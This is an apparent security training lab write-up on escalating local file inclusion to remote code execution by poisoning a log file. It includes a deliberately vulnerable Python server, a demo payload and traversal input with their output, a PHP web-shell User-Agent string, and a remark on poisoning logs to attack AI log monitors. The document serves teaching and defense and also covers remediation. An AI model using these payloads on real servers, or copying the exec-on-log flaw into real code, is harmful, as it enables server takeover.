


# 🛡️ Day 30: LFI Escalation to RCE (Log Poisoning)

**Author:** Bhavishya | **Version:** 1.5 (Final Perfected Edition) | **Subject:** Advanced Web Exploitation
**Level:** 500 (Expert / Red Team)

---

## 🔬 Technical Deep Dive & Theory

While Local File Inclusion (LFI) is inherently dangerous due to data exposure (e.g., `/etc/passwd`), its true devastating potential is realized when chained into **Remote Code Execution (RCE)**. 

### The Attack Vector: Log Poisoning
If an attacker can write controlled input to a file on the server (like an Apache `access.log` via the User-Agent header, or an SSH log via username injection), and then include that file via LFI, the server will execute the injected payload. This transforms a read-only vulnerability into full system compromise.

---

## 🗺️ Visualizing the Attack Chain

### 🧑‍🍳 The Restaurant Analogy (The Logic)


### 💻 The Technical Flow (The Code)


---

## 💻 Lab: The "Dirty Hands" Execution

### 🎯 Objective
Escalate an LFI vulnerability to RCE by poisoning a custom web server's access log with a malicious Python payload, subsequently using path traversal to execute it.

### 🐍 The Vulnerable Asset: `vulnerable_server.py`
This script simulates a server that logs User-Agent strings to `access.log` and contains a dangerous dynamic execution flaw when reading included files.

```python
import os
import datetime

# --- RULE 1: THE LOG (The Diary) ---
def log_request(user_agent):
    with open("access.log", "a") as log:
        log.write(f"[{datetime.datetime.now()}] Request from Agent: {user_agent}\n")

user_agent_input = input("1. Enter your User-Agent string: ")
log_request(user_agent_input)

page_to_load = input("2. Enter page to load (e.g., home.txt): ")
base_path = "pages/"
full_path = os.path.join(base_path, page_to_load)

# --- RULE 2: THE EXECUTION (The Scissors) ---
try:
    with open(full_path, "r") as f:
        content = f.read()
        
        if "<zenith_exec>" in content and "</zenith_exec>" in content:
            print("[!!!] CRITICAL: Executable tags detected in file. Running code...")
            payload = content.split("<zenith_exec>")[1].split("</zenith_exec>")[0]
            exec(payload)
        else:
            print(content)
except Exception as e:
    print(f"[-] Error: {e}")
```

### 🩸 Raw Output & Logs (The Breach)
```text
➜ python vulnerable_server.py
1. Enter your User-Agent string: <zenith_exec>import os; os.system("echo 'YOU HAVE BEEN HACKED BY 12ZSE' > pwned_by_rce.txt"); print('RCE SUCCESSFUL: pwned_by_rce.txt created!')</zenith_exec>
2. Enter page to load (e.g., home.txt): ../access.log

[+] Loading pages/../access.log...
[!!!] CRITICAL: Executable tags detected in file. Running code...
RCE SUCCESSFUL: pwned_by_rce.txt created!
```

### 🏁 Proof of Execution
```text
➜ ls -la | grep pwned_by_rce.txt
-rw-r--r--  1 12zse 12zse    30 Apr 18 09:43 pwned_by_rce.txt
➜ cat pwned_by_rce.txt
YOU HAVE BEEN HACKED BY 12ZSE
```

---

## 🛡️ RCA (Root Cause Analysis) & Defense-in-Depth

**Root Cause:** A fatal combination of unvalidated file inclusion (LFI) and executing dynamic content from untrusted sources (eval/exec functions on log files).

**Remediation Strategy:**
1. **Never Execute Log Files:** Application logic must never parse and execute code from log directories.
2. **Strict LFI Patching:** Enforce absolute path validation and hardcoded allow-lists so attackers cannot traverse to `/var/log/`.
3. **Log Sanitization:** Encode or sanitize User-Agent strings and HTTP headers before writing them to disk to neutralize executable tags (e.g., converting `<` to `&lt;`).

---

## 🔍 Threat Actor Profiling & MITRE Mapping

| Threat Actor | Motivation | MITRE ATT&CK Technique |
| :--- | :--- | :--- |
| **Advanced Persistent Threats (APTs)** | Server Takeover | **T1190**: Exploit Public-Facing Application |
| **Ransomware Operators** | Initial Access | **T1059.006**: Command and Scripting Interpreter: Python |

---

## 📊 GRC & Compliance Mapping

* **OWASP Top 10 (A03:2021):** Injection. Treating log files as executable code is a critical injection failure.
* **NIST CSF (PR.PT-4 & DE.CM-1):** Requires strict access control on sensitive directories (`/var/log`) and continuous monitoring of application logs for anomalous executable payloads.
* **ISO 27001 (A.14.2.5):** Secure system engineering principles dictate strict separation of data and execution layers.

---

## 🛠️ Lab Report: What We Mastered

**Executive Summary:** Successfully engineered a Remote Code Execution (RCE) exploit chain by combining Log Poisoning with Local File Inclusion (LFI). We injected a malicious Python payload into the server's `access.log` via a simulated User-Agent header. We then triggered the LFI vulnerability to read the poisoned log file, forcing the server to execute the payload natively on the Arch Linux host and write a proof-of-concept text file to the filesystem.

---

## 🚨 Real-World Breach Case Study: Apache/PHP Log Poisoning

In misconfigured LAMP (Linux, Apache, MySQL, PHP) stacks, attackers frequently use Burp Suite to change their `User-Agent` to `<?php system($_GET['cmd']); ?>`. Apache logs this string directly into `/var/log/apache2/access.log`. The attacker then uses an existing LFI vulnerability to load `page=../../../../../var/log/apache2/access.log&cmd=id`. Because PHP blindly executes any `<?php` tags it finds in included files, the log file becomes a fully functional web shell, granting the attacker instant RCE.

---

## 💡 Senior Researcher Insights & Future Trends

* **Insight:** "Log poisoning is the classic red-team pivot. It teaches you that every piece of data you send to a server—even a simple User-Agent or an SSH username—is a potential weapon if you know where the server stores it."
* **Future Trend: SIEM Poisoning:** Attackers are now using log poisoning not just for LFI, but to exploit vulnerabilities in centralized logging dashboards (like Splunk or ELK stack) by injecting XSS or command payloads that trigger when a SOC analyst views the logs.
* **Future Trend: Blind Log Execution:** With automated log parsers and AI log summarization tools, injecting prompt-injection payloads into web logs is becoming a new vector to attack the AI monitoring the infrastructure.

---

## 🎮 Gamified Labs & Simulation Training

* **HackTheBox:** "Poison" (Classic LFI to SSH Log Poisoning to RCE).
* **TryHackMe:** "LFI to RCE via Log Poisoning" Module.
* **PortSwigger Web Security Academy:** File path traversal labs.

---

## 🎁 Free Web Resources & Official Documentation

* [HackTricks: LFI to RCE via Log Poisoning](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-log-poisoning)
* [PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
